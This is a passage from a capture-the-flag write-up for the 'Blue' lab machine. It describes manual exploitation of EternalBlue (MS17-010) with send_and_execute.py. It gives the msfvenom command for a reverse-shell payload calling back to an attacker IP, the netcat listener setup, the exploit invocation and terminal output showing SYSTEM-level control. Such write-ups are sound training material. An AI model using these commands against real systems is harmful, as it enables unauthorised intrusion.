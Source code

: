 # Foothold
Google search had listed numerous good resources on how to exploit EternalBlue manually. An interesting article from the 
lot, **Exploiting MS17-010 without Metasploit (Win XP SP3)**[^fn2], was chosen for this target. It involves using 
**send_and_execute.py**[^fn3] with its dependencies **Impacket**[^fn4] and **mysmb**[^fn5] installed.

> Note: While, impacket can be installed directly through *pip*, *mysmb* had to be downloaded manually. There are
> numerous mysmb options available on GitHub, one such instance used to exploit the machine is listed on [^fn5].
> The exploits from **Exploit-DB** would also work, but need some similar customization as send_and_execute.py

After downloading send_and_execute.py and installing necessary dependencies, the exploit was browsed through to 
understand the process. The exploit works by uploading a user-specified **payload** onto the target using *PIPE* and
executing it. A payload was then generated using *msfvenom* through the command, 
`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=9095 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe`.
With the payload generated, and a netcat listener on port 9095 of the attacking host, the script was executed as
`python2.7 send_and_execute.py 10.10.10.40 ms17-010.exe`, resulting in a failed attempt with the message
*"Not found accessible named pipe"*. After researching further, trying the exploit again with a different username
seemed a reasonable option. The *USERNAME* on the python script was changed to **guest** as shown in the section below.
```python
USERNAME = 'guest'
PASSWORD = ''
```
The script was executed again after initiating a netcat listener on the attacking host. This time the exploit worked,
resulting in a reverse shell from the target and the same is shown on the section given below.
``` 
[-----TERMINAL-1-----]
Beginner/Blue [ python2.7 send_and_execute.py 10.10.10.40 ms17-010.exe                     ] 8:01 PM
Trying to connect to 10.10.10.40:445
Target OS: Windows 7 Professional 7601 Service Pack 1
Using named pipe: browser
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa800482c020
SESSION: 0xfffff8a001885060
FLINK: 0xfffff8a00187f048
InParam: 0xfffff8a0019a215c
MID: 0x1302
unexpected alignment, diff: 0x-123fb8
leak failed... try again
CONNECTION: 0xfffffa800482c020
SESSION: 0xfffff8a001885060
FLINK: 0xfffff8a0019b4088
InParam: 0xfffff8a0019ae15c
MID: 0x1303
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
```

[^fn4]: Impacket can be installed through *pip install impacket*
[^fn5]: [mysmb.py](https://github.com/worawit/MS17-010/blob/master/mysmb.py)